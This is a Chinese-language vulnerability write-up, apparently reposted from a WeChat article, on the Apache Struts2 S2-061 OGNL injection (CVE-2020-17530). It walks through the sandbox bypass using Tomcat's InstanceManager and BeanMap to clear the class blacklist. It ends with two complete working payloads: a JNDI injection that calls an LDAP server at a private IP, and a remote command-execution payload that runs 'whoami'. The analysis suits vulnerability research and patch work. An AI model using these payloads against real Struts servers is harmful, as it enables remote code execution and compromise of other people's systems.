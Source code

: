 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/skV6BsARvie33vV2R6SZKw)

简介
--

Apache Struts2 框架是一个用于开发 Java EE 网络应用程序的 Web 框架。Apache Struts 于 2020 年 12 月 08 日披露 S2-061 Struts 远程代码执行漏洞（CVE-2020-17530），在使用某些 tag 等情况下可能存在 OGNL 表达式注入漏洞，从而造成远程代码执行，风险极大

分析
--

第一次比较认真的接触 Ognl 语言，下面分析一下 Poc 过程 环境使用 vulhub 的 s2-059 环境即可。但是需要修改一下，在 pom 中新增一个依赖

```
        <!-- https://mvnrepository.com/artifact/commons-collections/commons-collections -->
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.2</version>
        </dependency>
```

已知 Ongl 沙盒的限制如下

1.  无法 new 一个对象
    
2.  无法调用黑名单类和包的方法、属性
    
3.  无法调用静态方法
    
4.  无法直接执行命令
    
5.  无法调用方法属性非 public 的方法
    

ognl 没有限制的操作

1.  对象属性 setter/getter(public) 赋 / 取值，可以访问静态属性。
    
2.  已实例类的方法调用 (OgnlContext 中的对象)，不允许调用静态方法
    

idea 中可以通过 ActionContext.actionContext.get() 去获取 ognl 的 context，方便我们调试。

#### 2.1 绕过 new 创建对象

在 context 的 application 中，org.apache.tomcat.SimpleInstanceManager 的实例代码如下，可以实例化一个无参构造函数。

```
@Override    public Object newInstance(String className) throws IllegalAccessException,            InvocationTargetException, NamingException, InstantiationException,            ClassNotFoundException, NoSuchMethodException  {        Class<?> clazz = Thread.currentThread().getContextClassLoader().loadClass(className);        return prepareInstance(clazz.getConstructor().newInstance());    }
```

#### 2.2 获取 ognl context

因为 ognl 的 securityMemberAccess 中，存放黑名单，我们需要将黑名单置空，以达到任意调用类的目的。

我们可以看一下 org.apache.commons.collections.BeanMap 这个类。这个类存在无参公开的构造方法，可以被上一步绕过限制创建对象使用。

该类将任意对象转换为类似 bean 的操作，通过 get/set 操作去调用对象的 getxxx 函数，setxxx 函数。

```
public Object get(Object name) {        if ( bean != null ) {            Method method = getReadMethod( name );            return method.invoke( bean, NULL_ARGUMENTS );
```

而 ognl 的 stackValue 对象，恰好存在 getContext 方法，而 stackValue 我们也可以在 context 中访问

```
BeanMap b = new BeanMap();b.setBean(ActionContext.actionContext.get().getValueStack());BeanMap c = new BeanMap();c.setBean(b.get("context"));
```

#### 2.3 清空黑名单

同理，我们可以通过 beanMap 去调用以下方法以置空黑名单

```
    public void setExcludeProperties(Set<Pattern> excludeProperties) {
        this.excludeProperties = excludeProperties;
    }

    public void setAcceptProperties(Set<Pattern> acceptedProperties) {
        this.acceptProperties = acceptedProperties;
    }

    public void setExcludedClasses(Set<Class<?>> excludedClasses) {
        this.excludedClasses = excludedClasses;
    }
```

```
#beanMap.put('excludedClasses',#{})
```

#### 2.4 利用

ognl 中，默认已经无法直接调用诸如 Runtime 等方法去执行命令，代码如下

```
                 AccessibleObjectHandler.class.isAssignableFrom(methodDeclaringClass) ||
                 ClassResolver.class.isAssignableFrom(methodDeclaringClass) ||
                 MethodAccessor.class.isAssignableFrom(methodDeclaringClass) ||
                 MemberAccess.class.isAssignableFrom(methodDeclaringClass) ||
                 OgnlContext.class.isAssignableFrom(methodDeclaringClass) ||
                 Runtime.class.isAssignableFrom(methodDeclaringClass) ||
                 ClassLoader.class.isAssignableFrom(methodDeclaringClass) ||
                 ProcessBuilder.class.isAssignableFrom(methodDeclaringClass) ||
                 AccessibleObjectHandlerJDK9Plus.unsafeOrDescendant(methodDeclaringClass) ) 
```

但是，被实例化的类中调用上面的危险操作，并不受影响。

既然上一步我们已经置空黑名单，于是可以去找即存在无参构造函数，又可以命令执行的类。

```
public class Execute implements TemplateMethodModel {    private static final int OUTPUT_BUFFER_SIZE = 1024;    public Execute() {    }    public Object exec(List arguments) throws TemplateModelException {        StringBuilder aOutputBuffer = new StringBuilder();            String aExecute = (String)((String)arguments.get(0));            Process exec = Runtime.getRuntime().exec(aExecute);            InputStream execOut = exec.getInputStream();
```

Poc
---

这个洞没那么严重，其实就是 s2-059 绕过，大家别想多

发散思维一下，这个 beanMap 类似于 fastjson 的命令执行。所以也可以构造一个 jndi 注入嘛 com.sun.rowset.JdbcRowSetImpl 也存在无参构造方法 DatasourceName 也可以通过 beamMap 去操作

```
public void setDataSourceName(String var1) throws SQLException {        if (this.getDataSourceName() != null) {            if (!this.getDataSourceName().equals(var1)) {                super.setDataSourceName(var1);                this.conn = null;                this.ps = null;                this.rs = null;            }        } else {            super.setDataSourceName(var1);        }    }
```

最后通过 getAutoCommit 触发 jndi 注入

```
public boolean getAutoCommit() throws SQLException {        return this.conn.getAutoCommit();    }
```

##### jndi payload

```
%{('Powered_by_Unicode_Potats0,enjoy_it').(#UnicodeSec = #application['org.apache.tomcat.InstanceManager']).(#rw=#UnicodeSec.newInstance('com.sun.rowset.JdbcRowSetImpl')).(#rw.setDataSourceName('ldap://192.168.3.254:10086/UnicodeSec')).(#rw.getDatabaseMetaData())}
```

#### 命令执行 payload

```
%{('Powered_by_Unicode_Potats0,enjoy_it').(#UnicodeSec = #application['org.apache.tomcat.InstanceManager']).(#potats0=#UnicodeSec.newInstance('org.apache.commons.collections.BeanMap')).(#stackvalue=#attr['struts.valueStack']).(#potats0.setBean(#stackvalue)).(#context=#potats0.get('context')).(#potats0.setBean(#context)).(#sm=#potats0.get('memberAccess')).(#emptySet=#UnicodeSec.newInstance('java.util.HashSet')).(#potats0.setBean(#sm)).(#potats0.put('excludedClasses',#emptySet)).(#potats0.put('excludedPackageNames',#emptySet)).(#exec=#UnicodeSec.newInstance('freemarker.template.utility.Execute')).(#cmd={'whoami'}).(#res=#exec.exec(#cmd))}
```

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdHJ9IdVqxbicY2mI9youJhWwbcq8VL46sDDkr8ibYrk0WrsVDFqdsSRR7Qmyia9ib9WSrNyNXbETbovAw/640?wx_fmt=png)